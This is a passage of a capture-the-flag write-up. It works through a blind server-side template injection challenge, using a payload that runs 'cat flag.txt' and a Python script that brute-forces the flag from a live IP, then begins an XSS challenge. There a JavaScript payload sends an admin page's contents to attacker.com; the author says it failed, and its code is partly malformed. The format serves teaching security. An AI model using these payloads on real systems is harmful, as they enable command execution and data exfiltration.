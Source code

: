 ``` Amazon{This_Flag_Is_Secret_front_end_validation_is_bullet_proof} ```
This is a blind injection, so knowing the flag format we can check if our payload is correct by testing on the first character which is A.
```{% if request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read().startswith('A') %} found {% endif %}```

Sending this payload in Burpsuite, we can see that the body response contained the word ```found``` ! Our payload was successfully executed and we can move on to automating the extraction of the flag by writing a short python script. 

```python
import requests

dictionary="azertyuiopmlkjhgfdsqwxcvbnAZERTYUIOPMLKJHGFDSQWXCVBN{}1234567890-_*%$()?!/;:,.%&|@#~¹[|`§+=<>"
URL = "http://18.220.4.126:6060/addtocart"
final = ""
for i in range(1,60):
        for x in dictionary:
                exploit = "{% if request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read().startswith('"+ final + x+ "') %} found {% endif %}"
                data = {'item': exploit}
                r = requests.post(url = URL , data = data)
                if ("found" in r.text) :
                        final = final + x
                        print ("gj XwaSS!: " + final)
                        break
```
![alt-text](https://i.imgur.com/S5Hehg7.png)



### Bloggerade - 200 points - Medium
This challenge addressed an XSS vulnerability. 
Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users which allows attackers to execute malicious code inside the victim's browser.

Opening the challenge website, we have a report to admin feature, 2 blogs that we can view and a /administrator page which we don't have access to. Analyzing this, we can assume that the flag is in the /administrator page that only the admin can access. Which means we need to find a way to exfiltrate the content of that page. 

Entering one of the blogs we have, we can see that the blog number value is being passed through blogNumber GET parameter and it is reflected back on the page. I immediately tried to change the value to a random number and this number was also reflected.
![alt-text](https://i.imgur.com/OxkHNfG.png)  

Trying an XSS POC, we could successfully get an alert(1) pop up, which means this website is vulnerable to XSS. 
![alt-text](https://i.imgur.com/jEuIRaH.png)

Putting all the puzzle together, we write a simple JS function that upon execution, it sends the content of /administrator page to our server. (The chosen server in this challenge was ngrok, you can use webhook or any other alternative).  
At first, I tried this payload, but it didn't work for some reason, so I used the second one as an alternative. 
##### First failed payload:
```js
var xhr=newXMLHttpRequest();
xhr.open('GET','http://18.225.156.202:9090/administrator',true);
xhr.onload=function(){ varrequest=newXMLHttpRequest();
request.open('GET','https://attacker.com?flag='+ xhr.responseText,true);
request.send() }; xhr.send();
``` 
